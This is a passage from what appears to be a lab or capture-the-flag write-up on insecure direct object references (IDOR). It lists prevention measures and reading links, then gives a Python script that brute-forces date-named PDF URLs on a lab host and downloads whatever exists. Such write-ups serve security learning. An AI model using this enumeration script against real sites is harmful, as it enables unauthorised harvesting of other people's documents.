 -   **Prevention Methods**:
    -   Implementing proper access control checks to ensure users can only access objects they are authorized to.
    -   Avoiding the use of direct object references in user-accessible inputs whenever possible.
    -   Using indirect reference maps or tokens to reference internal objects.

-   **Further reading on IDORs**:
    -   How to find IDORs:
        -   <https://vickieli.medium.com/how-to-find-more-idors-ae2db67c9489>
    -   OWASP:
        -   <https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References>


#### Scripting a simple mass down-loader to download the PDF's: {#scripting-a-simple-mass-down-loader-to-download-the-pdf-s}

-   Here is my script for mass downloading the files from site.
-   It's simple in that it essentially fuzzes for every day &amp; month combination &amp; depending on the `HTTP` response will download the file or print a message saying file not found.



```python
import requests

# Days from 01 to 31
days = [str(day).zfill(2) for day in range(1, 32)]

# Months from 01 to 12
months = [str(month).zfill(2) for month in range(1, 13)]

# Loop through days and months
for d in days:
    for m in months:
        # Construct the URL:
        url = f"http://10.129.95.154/Documents/2020-{m}-{d}-upload.pdf"
        response = requests.get(url)

        # Check if the request was successful:
        if response.status_code == 200:
            print(f"Downloading {url}")

            # Save the file locally & print message:
            file_name = f"2020-{m}-{d}-upload.pdf"
            with open(file_name, 'wb') as file:
                file.write(response.content)

        # If we get a 404 response print that no file was found:
        elif response.status_code == 404:
            print(f"No file found at {url}")
```

